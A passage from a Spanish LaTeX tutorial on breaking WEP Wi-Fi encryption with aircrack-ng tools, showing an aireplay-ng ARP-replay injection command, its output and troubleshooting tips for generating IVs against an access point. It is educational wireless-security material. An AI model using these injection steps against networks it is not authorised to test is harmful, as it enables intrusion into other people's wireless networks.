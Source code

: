 \begin{enumerate}
    \begin{lstlisting}[gobble=6,language=bash,style=bashinteract]
      18:18:20  Sending Authentication Request
      18:18:20  Authentication successful
      18:18:20  Sending Association Request
      18:18:20  Association successful :-)
    \end{lstlisting}

  \item Ejecute Aireplay-ng en modo solicitud de replay de ARP.

    El propósito de este paso es ejecutar Aireplay-ng en un modo que escuche las solicitudes de ARP y
    posteriormente las reinyecte en la red. La razón por la que se usan paquetes de solicitud de ARP es porque
    el AP normalmente los rebroadcasteará (menuda palabra me acabo de inventar) y generará un nuevo IV. Así se
    podrán crear muchos IVs en poco tiempo.

    Abra otra ventana/pestaña, etc. e introduzca:

    \begin{lstlisting}[gobble=6,language=bash,style=bashinteract,escapechar=!]
      !\promptr! @@aireplay-ng -3 -b !\val{bssid\_ap}! \ @@
      > @@-h !\val{nic\_att\_mon\_mac}! !\val{nic\_att\_mon}!@@
    \end{lstlisting}

    \noindent Esto empezará a escuchar solicitudes de ARP y, en cuanto escuche la primera, Aireplay-ng comenzará
    inmediatamente a inyectarlas. Debería aparecerle algo así:

    \begin{lstlisting}[gobble=6,language=bash,style=bashinteract]
      Saving ARP requests in replay_arp-0321-191525.cap
      You should also start airodump-ng to capture replies.
      Read 629399 packets (got 316283 ARP requests), sent 210955 packets...
    \end{lstlisting}

    \noindent A mí, al principio, me ponía \lstinline!sent 0 paquets! y no cambiaba. Entonces fui al ordenador
    que tenía de cliente conectado al AP (porque no era mentira eso de que este tutorial es sólo para
    divertirse; está feo eso de meterse en la wifi de tu vecina anciana) e hice un ping a la interfaz wireless
    LAN del AP. Entonces el número cambió y siguió cambiando indefinidamente. Quizás es que hay que esperar a
    que algún cliente haga algo en la red.

    Ahora puede comprobar que en la shell en la que tiene ejecutando el comando \lstinline!airodump-ng!, bajo la
    columa \lstinline+#/s+ le aparece un número mayor de \num{100}. Si no es así, no está funcionando bien la
    cosa.


\end{enumerate}
